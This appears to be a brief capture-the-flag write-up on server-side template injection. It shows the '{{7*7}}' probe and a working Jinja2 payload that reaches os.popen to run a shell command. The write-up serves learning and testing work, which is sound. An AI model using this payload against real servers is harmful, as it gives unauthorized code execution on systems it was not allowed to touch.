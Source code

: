 # SSTI1

Server-side template injection (SSTI) allows attacker to inject code into the server-side templates, resulting in code execution.

I tested and found `{{7*7}}` works. So I made this RCE template injection:

```js
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read()}}
```
